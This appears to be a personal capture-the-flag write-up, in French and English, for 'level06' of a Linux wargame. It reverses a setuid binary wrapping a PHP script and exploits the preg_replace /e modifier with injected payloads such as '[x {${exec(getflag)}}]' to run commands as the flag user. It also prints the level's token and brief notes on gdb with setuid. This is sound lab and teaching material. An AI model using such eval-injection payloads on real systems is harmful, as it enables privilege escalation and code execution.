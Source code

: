 LEVEL 06

------------------------------------------------------------------------------------------------------------------------

    find . -user level06 2> /dev/null | grep -v proc
                 flag06
    find . -perm /u=s,g=s

* Recherches

    • strings ./level06
        /usr/bin/php
        /home/user/level06/level06.php
        On devine que ça équivaut au call de execv
    
    • objdump -d level06 | awk -F"\n" -v RS="\n\n" '$1 ~ /<main>/'
        call   8048430 <execve@plt>
    
     objdump -h level06 | grep debug --> Le binaire n'a pas été compilé avec le flag -g permettant d'utiliser gdb dessus

    ./level06 /bin/getflag /bin/getflag
            You should not reverse this
            flag.Here is your token : You are root are you that dumb ?
            Nope there is no token here for you sorry. Try again :)

    cat level06.php (cf. x.php)

        preg_replace — Rechercher et remplacer par expression rationnelle standard
        preg_replace ( string|array $pattern , string|array $replacement , string|array $subject [, int $limit = -1 [, int &$count = null ]] ) : string|array|null
        Analyse subject pour trouver l'expression rationnelle pattern et remplace les résultats par replacement.
        preg_replace(patter, replacement, subject)

        Décomposition : voir x.php


    • file level06 : level06: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24,
    BuildID[sha1]=0xaabebdcd979e47982e99fa318d1225e5249abea7, not stripped

    NB : BuildID is NOT the hash of a binary or related to it. It is an identifier for the "build" (or compiling) session which produced that binary. It is mostly there for debug purposes

    echo "/bin/getflag" > /tmp/tmp1; echo "getflag" > /tmp/tmp2 ; ./level06 /tmp/tmp1 /tmp/tmp2
        
        /bin/getflag

    
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier
    AH ! The e modifier is a deprecated regex modifier which allows you to use PHP code within your regular expression. This means that whatever you parse in will be evaluated as a part of your program.
    Le 'e' est très vulnérable et permet d'exécuter du code
        
        ---> The modifier "e" will cause PHP to execute the result of the preg_replace() operation as PHP code.
    Il faut réussir à match le pattern pour que s'exec le /bin/getflag, puisque le programme est suid pour flag06

    Exemple : vi x.php

        #!/usr/bin/php
        <?php
            $a = preg_replace("/42/e", "exec('/bin/getflag')", "42");
            print $a;
        ?>
    
    Si besoin, explications détaillés dans x.php

    echo "[x /bin/getflag]" > /tmp/tmp1
    echo "[x exec(getflag)]" > /tmp/tmp1

    On print le contenu de la regex, mais pas son output en tant que commande, en php on passe par {${ syntaxeWtf() }}

    echo "[x {${/bin/getflag}}]" > /tmp/tmp1
    echo "[x {${system("/bin/getflag")}}]" > /tmp/tmp1

    Autre façon de faire : fonction php exec()
    echo '[x {${exec(getflag)}}]' > /tmp/coucou



* Solution

    echo '[x {${exec(getflag)}}]' > /tmp/coucou
    ./level06 /tmp/tmp1

        Here is your token : wiok45aaoguiboiki2tuin6ub
    
    su level07 wiok45aaoguiboiki2tuin6ub


------------------------------------------------------------------------------------------------------------------------

• GDB & SUID

If you run a setuid program under debugger, and you're not root, it will run as if was not setuid. Meaning it will execute under your id, not root. So while you can spawn a shell, it will use your credentials.
You can easily test it yourself by launching su under gdb and verify in another console that it is executed under your user account.
And if you launch the setuid program and then try to gdb attach to it, this will return 'permission denied' error.

Remember : If you run a setuid program under debugger, and you're not root, it will run as if was not setuid
To Check : run gdb and from another console run "w" to check under which user gdb is running


• Symbols Debug

gcc -g tells the compiler to store symbol table information in the executable. Among other things, this includes:
symbol names
type info for symbols
files and line numbers where the symbols came from
Debuggers use this information to output meaningful names for symbols and to associate instructions with particular lines in the source.